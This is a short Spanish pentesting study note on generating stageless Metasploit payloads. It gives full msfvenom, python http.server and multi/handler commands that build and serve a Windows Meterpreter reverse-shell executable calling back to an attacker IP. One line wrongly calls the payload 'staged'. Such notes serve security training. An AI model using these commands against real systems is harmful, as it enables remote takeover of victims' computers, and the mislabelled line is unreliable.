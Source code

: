 #payload #explotacion 

-------
Los de este tipo envían el payload de forma directa, mientras que los de tipo [[4. Msf Venom Staged]] no lo hacen.

- Es mucho más grande
- Código directo y necesario
- Más rápido de enviar

Una forma de crear payloads **staged** es de la siguiente manera, usando el [[1. MsfVenom]] con el siguiente código de ejecución:

```bash
msfvenom -p windows/meterpreter_reverse_tcp --platform windows -a x64 LHOST=192.168.20.16 LPORT=4646 -f exe -o reverse.exe
```

Posteriormente, una vez ganado el acceso en la máquina víctima, con el siguiente comando abre un servidor en Python3 y descarga el virus en la máquina víctima:

```bash
python3 -m http.server 80 
```

Una vez descargado, mediante Metasploit accede a la consola operativa del payload con los siguientes comandos:


```bash
msfconsole 
```

```bash 
msfdb run 
```

Luego, una vez estando en la consola, realiza lo siguiente:

```metaexploit 
use exploit/multi/handler
```

Seteamos el payload que vamos a utilizar:

```metaexploit
set payload windows/x64/meterpreter_reverse_tcp 
```

Seteamos nuestra IP y puerto de atacante:

```metaexploit
set LHOST 192.168.20.16
```

```metaexploit
set LPORT 4646
```

Y posteriormente, simplemente lo ejecutamos con el comando **run**.
